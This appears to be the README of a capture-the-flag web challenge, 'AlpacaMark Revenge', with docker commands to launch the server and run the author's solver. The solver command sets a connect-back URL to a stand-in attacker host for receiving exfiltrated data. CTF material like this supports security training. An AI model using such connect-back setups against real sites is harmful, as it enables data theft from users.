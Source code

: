 # [web] AlpacaMark Revenge

## Description

`:alpaca:` -> 🦙

Note: This is a fixed challenge of [AlpacaMark](https://alpacahack.com/ctfs/round-11/challenges/alpaca-mark) in Round 11.

## Attachments

- [alpaca-mark-revenge](distfiles)

## Usage

Launch a challenge server:

```
cd challenge
docker compose up
```

Run the author's solver:

```
docker run -it --rm \
    -e BOT_BASE_URL=http://localhost:1337 \
    -e CONNECTBACK_URL=http://attacker.example.com \
    -p 8080:8080 --network=host \
    (docker build -q ./solution)
```
where `http://attacker.example.com` is an origin forwarded to `http://localhost:8080`.
